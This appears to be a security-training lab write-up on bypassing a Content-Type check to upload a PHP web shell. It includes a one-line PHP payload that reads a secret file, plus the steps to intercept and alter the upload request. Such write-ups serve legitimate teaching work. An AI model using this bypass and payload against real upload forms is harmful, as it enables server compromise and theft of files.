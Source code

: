 # Web shell upload via Content-Type restriction bypass
# Objective
This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
### Uploading txt file
File type `text/plain` is not allowed. Only `image/jpeg` and `image/png` is allowed.

|![](Images/image-5.png)|
|:--:| 
| *Upload attempt* |

There is a chance that by intercepting request and changing file type in txt file upload would go through.

### Upload request example

|![](Images/image-6.png)|
|:--:| 
| *Normal upload request* |


## Exploitation

Payload `exploit.php`:
```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

|![](Images/image-8.png)|
|:--:| 
| *Successful PHP payload upload* |
|![](Images/image-7.png)|
| *Path to uploaded file* |
|![](Images/image-9.png)|
| *Triggering uploaded PHP file* |
